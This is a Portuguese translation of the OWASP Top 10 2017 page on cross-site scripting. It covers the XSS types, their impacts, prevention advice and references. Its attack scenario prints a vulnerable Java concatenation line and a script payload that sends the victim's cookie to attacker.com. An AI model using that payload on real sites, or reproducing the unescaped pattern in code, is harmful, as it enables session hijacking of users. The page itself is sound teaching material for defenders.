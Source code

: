 # A7:2017 Cross-Site Scripting (XSS)

| Agentes de Ameaça/Vetores de Ataque | Vulnerabilidades de Segurança | Impactos |
| -- | -- | -- |
| Nível de Acesso \| Explorabilidade 3 | Prevalência 3 \| Detectabilidade 3 | Técnico 2 \| Negócio |
| Ferramentas automatizadas podem detectar e explorar as três formas de XSS, e existem frameworks de exploits disponíveis gratuitamente. | XSS é o segundo problema mais prevalente no OWASP Top 10, e é encontrado em cerca de dois terços de todas as aplicações. As ferramentas automatizadas podem encontrar alguns problemas XSS automaticamente, particularmente em tecnologias maduras, como PHP, J2EE / JSP e ASP.NET. | O impacto do XSS é moderado para refletido e DOM XSS, e grave para XSS armazenado, com execução remota de código no navegador da vítima, como roubar credenciais, sessões ou entregar malwares à vítima. |

## A Aplicação está Vulnerável?

Existem três formas de XSS, geralmente visando os navegadores dos usuários:

* **XSS Refletido**: Sua aplicação ou API inclui entradas de usuário não validadas e não modificadas como parte da saída HTML. Um ataque bem sucedido pode permitir que o atacante execute HTML e JavaScript arbitrários no navegador da vítima. Normalmente, o usuário precisará interagir com algum link malicioso que aponte para uma página controlada pelo atacante, como sites maliciosos de *watering hole*, propagandas ou similares.
* **XSS Armazenado**: Sua aplicação ou API armazena entradas de usuário não sanitizadas que é vista mais tarde por outro usuário ou administrador. O XSS armazenado é frequentemente considerado de risco alto ou crítico.
* **DOM XSS**: Frameworks de JavaScript, aplicativos de uma única página (SPAs) e APIs que incluem dinamicamente dados controláveis pelo atacante para uma página são vulneráveis ao DOM XSS. Idealmente, sua aplicação não enviaria dados controláveis pelo atacante para APIs de JavaScript inseguras.

Ataques XSS típicos incluem o roubo de sessão, a aquisição de contas, *bypass* de MFA (MultiFactor Authentication), a substituição de nós DOM ou o desfiguramento (como os painéis de login de trojan), ataques contra o navegador do usuário, como downloads de software mal-intencionado, *key logging* e outros ataques do lado do cliente.

## Como Prevenir

Prevenir XSS requer a separação de dados não confiáveis do conteúdo ativo do navegador. Isso pode ser alcançado por:

* Use frameworks que automaticamente escapam o XSS por design, como os mais recentes Ruby on Rails, React JS. Aprenda as limitações de proteção XSS de cada framework e cuide adequadamente os casos de uso que não são cobertos.
* Usar frameworks que automaticamente sanitizam o XSS por design, como Ruby on Rails e React JS mais recentes. Aprenda as limitações de proteção XSS de cada framework e cuide adequadamente os casos de uso que não são cobertos.
* Sanitizar por *escape* dados de solicitação HTTP não confiáveis com base no contexto na saída HTML (corpo, atributo, JavaScript, CSS ou URL) irá resolver vulnerabilidades XSS refletidas e armazenadas. A [Folha de Dicas OWASP 'XSS Prevention'](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html) contém detalhes sobre técnicas de *escape* de dados necessárias.
* Aplicar *encoding* sensível ao contexto ao modificar o documento do navegador no lado do cliente atua contra DOM XSS. Quando isso não puder ser evitado, técnicas de *escaping* sensíveis ao contexto semelhantes podem ser aplicadas às APIs do navegador, conforme descrito na Folha de Dicas OWASP 'DOM Based XSS Prevention'.
* Habilitar um [Content Security Policy (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) é um controle de mitigação de defesa profunda contra o XSS. É eficaz se não existem outras vulnerabilidades que permitiriam colocar códigos maliciosos através de arquivos locais (por exemplo, sobrescritas de *path traversal* ou bibliotecas vulneráveis em fontes permitidas).

## Exemplo de Cenários de Ataque

**Cenário 1**: A aplicação usa dados não confiáveis na construção do seguinte fragmento HTML sem validação ou *escaping*:

`(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";`

O atacante modifica o parâmetro 'CC' no navegador para:

`'><script>document.location='https://attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'`

Este ataque faz com que a ID da sessão da vítima seja enviada para o site do invasor, permitindo que o invasor seqüestra a sessão atual do usuário.

**Nota**: Atacantes podem usar XSS para derrubar qualquer defesa CSRF automatizada que a aplicação possa empregar.

## Referências

### OWASP

* [OWASP Proactive Controls: Encode Data](https://owasp.org/www-project-proactive-controls/v3/en/c4-encode-escape-data)
* [OWASP Proactive Controls: Validate Data](https://owasp.org/www-project-proactive-controls/v3/en/c4-encode-escape-data)
* [OWASP Application Security Verification Standard: V5](https://owasp.org/www-project-application-security-verification-standard/)
* [OWASP Testing Guide: Testing for Reflected XSS](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/01-Testing_for_Reflected_Cross_Site_Scripting)
* [OWASP Testing Guide: Testing for Stored XSS](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/02-Testing_for_Stored_Cross_Site_Scripting)
* [OWASP Testing Guide: Testing for DOM XSS](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/11-Client-side_Testing/01-Testing_for_DOM-based_Cross_Site_Scripting)
* [OWASP Cheat Sheet: XSS Prevention](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
* [OWASP Cheat Sheet: DOM based XSS Prevention](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html)
* [OWASP Cheat Sheet: XSS Filter Evasion](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)
* [OWASP Java Encoder Project](https://owasp.org/www-project-java-encoder/)

### Externas

* [CWE-79: Improper neutralization of user supplied input](https://cwe.mitre.org/data/definitions/79.html)
* [PortSwigger: Client-side template injection](https://portswigger.net/kb/issues/00200308_clientsidetemplateinjection)
